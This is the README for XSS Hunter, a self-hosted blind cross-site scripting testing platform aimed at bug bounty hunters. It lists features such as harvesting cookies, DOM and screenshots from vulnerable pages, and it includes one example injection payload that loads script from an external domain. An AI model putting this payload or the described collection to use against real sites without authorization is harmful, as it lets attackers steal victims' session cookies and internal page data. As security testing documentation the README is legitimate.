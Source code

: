 # XSS Hunter Source Code
This is a portable version of the source code running on https://xsshunter.com. It is designed to be easily-installable on any server for security professionals and bug bounty hunters who wish to test for XSS in a much more powerful way.

**If you don't want to set up this software and would rather just start testing, see https://xsshunter.com .**

# Requirements
* A server running (preferably) Ubuntu.
* A [Mailgun](http://www.mailgun.com/) account, for sending out XSS payload fire emails.
* A domain name, preferably something short to keep payload sizes down. Here is a good website for finding two letter domain names: [https://catechgory.com/](https://catechgory.com/). My domain is [xss.ht](xss.ht) for example.
* A wildcard SSL certificate, [here's a cheap one](https://www.namecheap.com/security/ssl-certificates/wildcard.aspx). This is required because XSS Hunter identifies users based off of their sub-domains and they all need to be SSL-enabled. We can't use Let's Encrypt because [they don't support wildcard certificates](https://community.letsencrypt.org/t/frequently-asked-questions-faq/26). I'm going to hold off on insulting the CA business model, but rest assured it's very silly and costs them very little to mint you a wildcard certificate so go with the cheapest provider you can find (as long as it's supported in all browsers).
    
# Setup
Please see https://thehackerblog.com/xss-hunter-is-now-open-source-heres-how-to-set-it-up/ for information on how to set up XSS Hunter on your own server.

# Summary of Functionality
*Upon signing up you will create a special short domain such as `yoursubdomain.xss.ht` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.xss.ht></script>`. XSS Hunter will automatically serve up XSS probes and collect the resulting information when they fire.*

# Features
* **Managed XSS payload fires**: Manage all of your XSS payloads in your XSS Hunter account's control panel.
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an XSS Hunter compatible tool is used) 
* **Full Page Screenshots**: XSS Hunter probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **Markup Report Generation**: Each XSS payload report comes with a pre-generated markdown report. These generated reports are also compatible with other markdown-supporting platforms such as Phabricator for easy bug reporting on company ticketing systems.
* **XSS Payload Fire Email Reports**: XSS payload fires also send out detailed email reports which can be easily forwarded to the appropriate security contacts for easy reporting of critical bugs.
* **Automatic Payload Generation**: XSS Hunter automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of XSS Hunter is the ability to correlated injection attempts with XSS payload fires. By using an [XSS Hunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the XSS Hunter service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after XSS Hunter has done it's thing? XSS Hunter offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **iOS Web Application**: It is also possible to view your XSS payload fires via an iOS web app. Simple navigate to the `/app` path and save the page as a web application to your iPhone's desktop.

# Notable Exploits
* Blind XSS in Spotify's Salesforce integration: https://mhmdiaa.github.io/jekyll/update/2016/07/19/blind-xss-in-spotify.html
* Blind XSS in GoDaddy's support panel: https://thehackerblog.com/poisoning-the-well-compromising-godaddy-customer-support-with-blind-xss/

# Want to Contribute?
All code was created by me and (for that reason) is likely *not* best practice and *definitely* in need of optimization/cleanup. Any pull requests are appreciated!
